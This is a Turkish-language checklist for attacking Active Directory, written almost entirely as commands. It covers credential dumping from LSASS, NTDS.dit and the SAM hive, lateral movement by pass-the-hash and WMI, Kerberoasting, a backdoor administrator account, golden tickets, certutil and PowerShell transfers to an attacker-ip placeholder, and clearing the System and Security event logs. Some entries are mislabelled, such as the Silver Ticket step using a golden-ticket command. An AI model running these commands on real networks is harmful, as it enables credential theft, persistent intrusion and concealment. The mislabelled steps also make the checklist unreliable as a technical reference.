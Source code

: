 # Active Directory Pentest Checklist

Bu checklist Active Directory ortamlarındaki pentest çalışmaları için detaylı bir rehber sunar. Her madde yanında tik kutusu (\[ \]) yer alır ve kontrol edildiğinde işaretlenebilir. Tüm adımlar sıralı ve komutlarla desteklenmiştir.

## 1. Credential Gathering

- [ ] **Hafıza Tabanlı Credential Toplama**
  - `mimikatz sekurlsa::logonpasswords`
  - `procdump -ma lsass.exe`

- [ ] **NTDS.dit Dosyasını Çıkar**
  - `ntdsutil "ac i ntds" ifm "create full c:\temp" q q`

- [ ] **SAM ve SYSTEM Dosyalarını Kopyala**
  - `reg save hklm\sam sam.save`
  - `reg save hklm\system system.save`

- [ ] **LSA Secrets Kontrolü**
  - `mimikatz sekurlsa::lsa /patch`

## 2. Enumeration

### 2.1. Domain Bilgisi

- [ ] **Domain ve Forest Bilgilerini Al**
  - `nltest /domain_trusts`
  - `nltest /dclist:domain`

- [ ] **Domain Controller IP'si ve Versiyonları**
  - `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
  - `wmic os get caption | findstr /i "server"`

- [ ] **Domain Policy'leri İncele**
  - `gpresult /h policy.html`

### 2.2. Kullanıcı ve Grup Bilgileri

- [ ] **Kullanıcıları Listele**
  - `net user /domain`

- [ ] **Grup Üyeliklerini Görüntüle**
  - `net group "Domain Admins" /domain`

### 2.3. Servisler ve Paylaşımlar

- [ ] **SMB Paylaşımlarını Tespit Et**
  - `enum4linux -a <IP>`
  - `smbclient -L //<IP>`

- [ ] **RPC Hizmetlerini Keşfet**
  - `rpcclient -U "" <IP>`

### 2.4. Sertifikalar

- [ ] **Sertifika Şablonlarını Kontrol Et**
  - `certutil -template`

- [ ] **Active Directory Certificate Services (AD CS) Zafiyetlerini Araştır**
  - `certipy list -u <username> -p <password>`

## 3. Lateral Movement

- [ ] **Pass-the-Hash**
  - `psexec.py <domain>/<user>@<IP> -hashes <NTLM>`

- [ ] **Pass-the-Ticket**
  - `mimikatz kerberos::golden`

- [ ] **Remote Desktop Protocol (RDP) Kullanımı**
  - `xfreerdp /u:<user> /p:<password> /v:<IP>`

- [ ] **WMI ile Komut Çalıştır**
  - `wmiexec.py <domain>/<user>@<IP>`

## 4. Privilege Escalation

- [ ] **Local Administrator Yetkisi Kazan**
  - `net localgroup administrators`

- [ ] **Kerberoasting Yap**
  - `GetUserSPNs.py -request`

- [ ] **Silver Ticket ile Yetki Yükselt**
  - `mimikatz kerberos::golden /sid:<SID>`

## 5. Persistence

- [ ] **Backdoor Kullanıcı Oluştur**
  - `net user backdoor P@ssw0rd! /add`
  - `net localgroup administrators backdoor /add`

- [ ] **Golden Ticket ile Kalıcılık Sağla**
  - `mimikatz kerberos::golden`

## 6. Exfiltration

- [ ] **Dosya Transferi**
  - `certutil -urlcache -f http://<attacker_ip>/file.exe file.exe`

- [ ] **SMB Üzerinden Dosya Çıkışı**
  - `copy <local_file> \\<target_IP>\share\file`

- [ ] **PowerShell ile Bilgi Sızdırma**
  - `Invoke-WebRequest -Uri http://<attacker_ip> -OutFile data.zip`

## 7. Cleanup

- [ ] **Logları Temizle**
  - `wevtutil cl System`
  - `wevtutil cl Security`

- [ ] **Oluşturulan Hesapları Sil**
  - `net user backdoor /delete`

- [ ] **Sistemden Çıkış Yap**
  - `logoff`

---

Bu checklist, her aşamada yapılması gereken kontrolleri ve bu işlemler için kullanılabilecek komutları kapsamlı bir şekilde sunar. Daha fazla detay ve araç için belgelere başvurabilirsiniz.
